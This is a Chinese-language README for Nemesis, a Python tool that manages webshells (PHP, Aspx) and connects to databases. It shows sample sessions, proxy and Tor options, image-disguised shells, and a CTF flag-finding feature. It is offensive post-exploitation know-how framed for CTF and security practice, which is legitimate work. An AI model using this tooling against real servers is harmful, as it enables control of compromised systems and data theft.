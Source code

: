 # Nemesis
命令行网站管理工具

名字取义自北欧神话的复仇女神`Nemesis`

***

运行于Python 3.x

支持：

Webshell：

- [x] PHP + Linux

- [x] PHP + Windows

- [x] Aspx + Windows

- [ ] Asp + Windows

- [ ] Jsp + Windows

- [ ] Jsp + Linux

数据库连接：

- [x] MySql

- [x] MSSql

- [ ] Oracle

***

**How to use:**

```
> git clone https://github.com/EddieIvan01/Nemesis.git
> cd Nemesis
> python3 nemesis.py http://127.0.0.1/shell.php pass

         _   _                                   _
        | \ | |   ___   _ __ ___     ___   ___  (_)  ___
        |  \| |  / _ \ | '_ ` _ \   / _ \ / __| | | / __|
        | |\  | |  __/ | | | | | | |  __/ \__ \ | | \__ \
        |_| \_|  \___| |_| |_| |_|  \___| |___/ |_| |___/

             /* Webshell Manager */

[+]Initialize...
[+]Set URL => http://127.0.0.1/shell.php
[+]Set Language => php
[+]Set Encode => utf-8
/var/www> ls
_index.php
ins.py
result.xls
shell.php
test

/var/www> exit
```

***

Usage:

```
usage:
  Manager mode(for manage shells):  ./nemesis.py [-h] [-p PROXY]
  Normal mode(for only one shell):  ./nemesis.py URL PASSWD [-h] [-l LANG] [-p PROXY]
  DB mode(for connect to database): ./nemesis.py DBURI(e.g. mysql://root:test123@127.0.0.1:3306) [-h]

optional arguments:
  -h, --help            show this help message and exit
  -l LANG, --lang LANG  if webshell's language is diffrent to file suffix
                        name, use it
  -p PROXY, --proxy PROXY
                        requests' proxy, e.g: socks5://127.0.0.1:1080
```



三种模式：

+ Manager模式：

  ```
  # 直接启动
  # 读取本地config.json中的Webshell list
  
  > python3 nemesis.py
           _   _                                   _
          | \ | |   ___   _ __ ___     ___   ___  (_)  ___
          |  \| |  / _ \ | '_ ` _ \   / _ \ / __| | | / __|
          | |\  | |  __/ | | | | | | |  __/ \__ \ | | \__ \
          |_| \_|  \___| |_| |_| |_|  \___| |___/ |_| |___/
  
               /* Webshell Manager */
  
  [+]Initialize...
  
  [*]Manager mode command:
       enter [index]                       --choose a shell to use
       set [index]:[encode | pwd] xxx      --change shells' encode or passwd
       flag                                --find flag in ctf
       exit
  
  [*]Webshell list
  [0] URL => http://127.0.0.1/shell.php   PWD =>pass   OS => win   ENCODE => gbk
  [1] URL => http://192.168.43.100/shell.php   PWD =>pass   OS => linux   ENCODE => utf-8
  [2] URL => http://192.168.43.105/shell.php   PWD =>pass   OS => win   ENCODE => gbk
  [3] URL => http://192.168.43.109/shell.php   PWD =>pass   OS => win   ENCODE => gbk
  
  @Nemesis>
  ```

  Manager Mode Usage

  + enter [index]   进入一个Webshell交互式终端
  + set [index]:[encode | pwd] xxx   修改Webshell的编码或passwd
  + flag   自动寻找Flag（CTF专用）
  + exit   退出

+ Shell模式

  ```
  # 进入单一shell
  > python3 nemesis.py http://127.0.0.1/shell.php pass
  ```

+ DB模式

  ```
  # 连接MySql/MSSql数据库
  > python3 nemesis.py mysql://root:root@127.0.0.1
  ```

***

**Tips：**

+ 默认Webshell语言为URL后缀，假如连接的是图片马 or 混淆后缀：使用`-l`或`--lang`

  ```
  > python3 nemesis.py http://127.0.0.1/shell.php.jpg pass -l php
  ```

+ 连接Webshell时使用代理：`-p`或`--proxy`

  ```
  # SSR
  > python3 nemesis.py http://127.0.0.1/shell.php pass -p socks5://127.0.0.1:1080
  
  # BurpSuite
  > python3 nemesis.py http://127.0.0.1/shell.php pass -p http://127.0.0.1:8080
  
  # Tor
  > python3 nemesis.py -p socks4://127.0.0.1:9050
  ```

+ CTF中一键寻找Flag，有几次拿到shell了确花了半天找flag究竟在根目录还是Web根目录还是在哪哪哪儿，故写了此功能，只能在Manager Mode运行，寻找所有名字带flag的文件，读取后正则匹配`/(\w+\{[-\w]+\})/`：

  ```
  > python3 nemesis.py
           _   _                                   _
          | \ | |   ___   _ __ ___     ___   ___  (_)  ___
          |  \| |  / _ \ | '_ ` _ \   / _ \ / __| | | / __|
          | |\  | |  __/ | | | | | | |  __/ \__ \ | | \__ \
          |_| \_|  \___| |_| |_| |_|  \___| |___/ |_| |___/
  
               /* Webshell Manager */
  
  [+]Initialize...
  
  [*]Manager mode command:
       enter [index]                       --choose a shell to use
       set [index]:[encode | pwd] xxx      --change shells' encode or passwd
       flag                                --find flag in ctf
       exit
  
  [*]Webshell list
  [0] URL => http://127.0.0.1/shell.php   PWD =>pass   OS => win   ENCODE => gbk
  
  @Nemesis> flag
  [+]Enter index: 0
  [+]Enter dir: f
  
  [+]Flag files:
  f:\flag
  f:\HackTo0ls\审计\GitHack\web.jarvisoj.com_32798\templates\flag.php
  f:\tim_recv_file\MobileFile\flag.py
  f:\tim_recv_file\MobileFile\flag.txt
  
  [+]Flag found in f:\flag: abc{asdasd798yh9da7yas9dy7}
  
  [+]No flag found in: f:\HackTo0ls\审计\GitHack\web.jarvisoj.com_32798\templates\flag.php
  
  [+]No flag found in: f:\tim_recv_file\MobileFile\flag.py
  
  [+]No flag found in: f:\tim_recv_file\MobileFile\flag.txt
  
  
  [*]Webshell list
  [0] URL => http://127.0.0.1/shell.php   PWD =>ck   OS => win   ENCODE => gbk
  
  @Nemesis>
  ```

+ 连接数据库时假如密码含有特殊字符如`@`，会对parse造成干扰，需使用飘号包裹：

  ```
  mysql://root:`abc@#123`@127.0.0.1:3306
  ```
